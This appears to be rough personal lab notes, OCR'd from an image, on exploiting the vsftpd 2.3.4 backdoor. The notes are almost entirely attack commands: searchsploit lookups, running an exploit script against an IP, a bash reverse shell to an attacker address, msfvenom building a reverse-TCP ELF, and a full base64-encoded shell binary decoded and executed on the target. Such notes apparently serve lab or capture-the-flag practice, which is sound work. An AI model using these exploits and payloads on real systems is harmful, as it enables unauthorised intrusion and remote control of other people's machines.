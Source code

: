 ```
serachsploit vsftpd 2.3.4
serachsploit -w ID 
serachsploit -m ID : mirror 
or 
serachsploit -p ID  > cp PATH . (if there's in kali)

python3 vsftpd_234_exploit.py <IP address> <port> <command>
python3 vsftpd_234_exploit.py 172.31.226.109 2100 whoami



gcc x 
almost only bash exist 
sh -i >& /dev/tcp/10.8.0.129/9002 0>&1

if there's no way, 
base64 encoding 
base64 -w 0 : disable line wrap 

msfvenom file create > cat PAYLAOD | base64 -w 0
just send text > create file on the target host while decoding base64 -d , chmod +x , execute  

echo 'BASE64' | base64 -d > revshell; chmod +x revshell; ./revshell


why don't you just create file on the target directly 
or
wget ? X 
can't send the file online 
curl wget msfvenom X 

msfvenom create 
> base64 encoding 
> echo 'ENCODING' | base64 -d > create file  (return to original revshell)
> chmod +x, execute.


msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.129 LPORT=9009 -f elf -o revshell : *** lhost = attacker's host

cat revshell | base64 -w 0


"echo 'f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAwgAAAAAAAAAMAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdIuQIAIzEKCACBUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=' | base64 -d > revshell2; chmod +x revshell2;./revshell2"

```

### shell upgrade
